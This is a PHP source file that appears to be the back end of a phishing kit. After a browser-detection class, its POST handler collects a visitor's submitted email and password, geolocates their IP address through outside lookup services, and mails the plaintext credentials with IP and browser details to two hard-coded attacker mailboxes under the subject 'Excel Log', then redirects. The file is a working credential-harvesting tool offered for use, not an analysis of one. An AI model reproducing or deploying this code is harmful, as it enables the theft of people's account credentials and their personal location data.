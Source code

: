 <?php session_start();

class BrowserDetection {

    private $_user_agent;
    private $_name;
    private $_version;
    private $_platform;

    private $_basic_browser = array (
       'Trident\/7.0' => 'Internet Explorer 11',
    'Beamrise' => 'Beamrise',
    'Opera' => 'Opera',
    'OPR' => 'Opera',
    'Shiira' => 'Shiira',
    'Chimera' => 'Chimera',
    'Phoenix' => 'Phoenix',
    'Firebird' => 'Firebird',
    'Camino' => 'Camino',
    'Netscape' => 'Netscape',
    'OmniWeb' => 'OmniWeb',
    'Konqueror' => 'Konqueror',
    'icab' => 'iCab',
     'Lynx' => 'Lynx',
    'Links' => 'Links',
    'hotjava' => 'HotJava',
    'amaya' => 'Amaya',
    'IBrowse' => 'IBrowse',
    'iTunes' => 'iTunes',
    'Silk' => 'Silk',
    'Dillo' => 'Dillo', 
    'Maxthon' => 'Maxthon',
    'Arora' => 'Arora',
    'Galeon' => 'Galeon',
    'Iceape' => 'Iceape',
    'Iceweasel' => 'Iceweasel',
    'Midori' => 'Midori',
    'QupZilla' => 'QupZilla',
    'Namoroka' => 'Namoroka',
    'NetSurf' => 'NetSurf',
    'BOLT' => 'BOLT',
    'EudoraWeb' => 'EudoraWeb',
    'shadowfox' => 'ShadowFox',
    'Swiftfox' => 'Swiftfox',
    'Uzbl' => 'Uzbl',
    'UCBrowser' => 'UCBrowser',
    'Kindle' => 'Kindle',
    'wOSBrowser' => 'wOSBrowser',
     'Epiphany' => 'Epiphany', 
    'SeaMonkey' => 'SeaMonkey',
    'Avant Browser' => 'Avant Browser',
    'Firefox' => 'Firefox',
    'Chrome' => 'Google Chrome',
    'MSIE' => 'Internet Explorer',
    'Internet Explorer' => 'Internet Explorer',
     'Safari' => 'Safari',
    'Mozilla' => 'Mozilla'  
    );

     private $_basic_platform = array(
        'windows' => 'Windows', 
     'iPad' => 'iPad', 
      'iPod' => 'iPod', 
    'iPhone' => 'iPhone', 
     'mac' => 'Apple', 
    'android' => 'Android', 
    'linux' => 'Linux',
    'Nokia' => 'Nokia',
     'BlackBerry' => 'BlackBerry',
    'FreeBSD' => 'FreeBSD',
     'OpenBSD' => 'OpenBSD',
    'NetBSD' => 'NetBSD',
     'UNIX' => 'UNIX',
    'DragonFly' => 'DragonFlyBSD',
    'OpenSolaris' => 'OpenSolaris',
    'SunOS' => 'SunOS', 
    'OS\/2' => 'OS/2',
    'BeOS' => 'BeOS',
    'win' => 'Windows',
    'Dillo' => 'Linux',
    'PalmOS' => 'PalmOS',
    'RebelMouse' => 'RebelMouse'   
     ); 

    function __construct($ua = '') {
        if(empty($ua)) {
           $this->_user_agent = (!empty($_SERVER['HTTP_USER_AGENT'])?$_SERVER['HTTP_USER_AGENT']:getenv('HTTP_USER_AGENT'));
        }
        else {
           $this->_user_agent = $ua;
        }
       }

    function detect() {
        $this->detectBrowser();
        $this->detectPlatform();
        return $this;
    }

    function detectBrowser() {
     foreach($this->_basic_browser as $pattern => $name) {
        if( preg_match("/".$pattern."/i",$this->_user_agent, $match)) {
            $this->_name = $name;
             // finally get the correct version number
            $known = array('Version', $pattern, 'other');
            $pattern_version = '#(?<browser>' . join('|', $known).')[/ ]+(?<version>[0-9.|a-zA-Z.]*)#';
            if (!preg_match_all($pattern_version, $this->_user_agent, $matches)) {
                // we have no matching number just continue
            }
            // see how many we have
            $i = count($matches['browser']);
            if ($i != 1) {
                //we will have two since we are not using 'other' argument yet
                //see if version is before or after the name
                if (strripos($this->_user_agent,"Version") < strripos($this->_user_agent,$pattern)){
                    @$this->_version = $matches['version'][0];
                }
                else {
                    @$this->_version = $matches['version'][1];
                }
            }
            else {
                $this->_version = $matches['version'][0];
            }
            break;
        }
       }
   }

    function detectPlatform() {
      foreach($this->_basic_platform as $key => $platform) {
            if (stripos($this->_user_agent, $key) !== false) {
                $this->_platform = $platform;
                break;
            } 
      }
    }

   function getBrowser() {
      if(!empty($this->_name)) {
           return $this->_name;
      }
   }        

   function getVersion() {
       return $this->_version;
    }

    function getPlatform() {
       if(!empty($this->_platform)) {
          return $this->_platform;
       }
    }

    function getUserAgent() {
        return $this->_user_agent;
     }

     function getInfo() {
         return "<strong>Browser Name:</strong> {$this->getBrowser()}<br/>\n" .
        "<strong>Browser Version:</strong> {$this->getVersion()}<br/>\n" .
        "<strong>Browser User Agent String:</strong> {$this->getUserAgent()}<br/>\n" .
        "<strong>Platform:</strong> {$this->getPlatform()}<br/>";
     }
}  


if($_POST){


$ip = getenv('HTTP_CLIENT_IP')?:
getenv('HTTP_X_FORWARDED_FOR')?:
getenv('HTTP_X_FORWARDED')?:
getenv('HTTP_FORWARDED_FOR')?:
getenv('HTTP_FORWARDED')?:
getenv('REMOTE_ADDR');

$query = @unserialize(file_get_contents('http://ip-api.com/php/'.$ip));
$query2 = @json_decode(file_get_contents("https://api.ipdata.co/{$ip}"));
if($query && $query['status'] == 'success') {
  $ipDetails = 'This visitor visited from '.$query['country'].', '.$query['regionName'] .', '.$query['city'].' with IP Address of - '.$query['query'];
} else {
  $ipDetails = $ip. ' | '.@$query2->country . ' | '.@$query2->region. ' | '. @$query2->city ;

}


$id = $email = $_POST['email'];
$password = $_POST['password'];

// var_dump($_POST);
// die;

if (empty($email) || empty($password)) {
header( "Location: index.php" );
}



$msg = "<h3>Details of a login</h3>
<br>
Email Address : <b>$id</b> <br/>
Password : <b>$password</b>

<p>Time Received - ". date("d/m/Y h:i:s a") ."</p>
";


$to = "arabmoni121@gmail.com,arabmoni121@yandex.com";
$subject = "Excel Log | $email";
$headers = "From: Noreply\r\n";




$obj = new BrowserDetection();
//echo $obj->detect()->getInfo();

// $headers .= "Reply-To: ". strip_tags($email) . "\r\n";

$headers .= "MIME-Version: 1.0\r\n";
$headers .= "Content-Type: text/html; charset=ISO-8859-1\r\n";

$message = '<html><body>';

$message .= '<table rules="all" style="border-color: #666;" cellpadding="10">';
$message .= "<tr><td><strong>Email:</strong> </td><td>" . strip_tags($email) . "</td></tr>";
$message .= "<tr><td><strong>Subject:</strong> </td><td>" . strip_tags($subject) . "</td></tr>";
$message .= "<tr><td><strong>Message:</strong> </td><td>" . $msg . "</td></tr>";
$message .= "<tr><td><strong>IP Details:</strong> </td><td>" . $ipDetails. "</td></tr>";
// $message .= "<tr><td><strong>Where Link Is Clicked From:</strong> </td><td>" . @$_SERVER['HTTP_REFERER']. "</td></tr>";
$message .= "<tr><td><strong>Browser Details:</strong> </td><td>" . $obj->detect()->getInfo(). "</td></tr>";
$message .= "</table>";
$message .= "</body></html>";

 $send  = @mail($to, $subject, $message, $headers);




header("Location: ");

}


die;
    


// }
  ?>
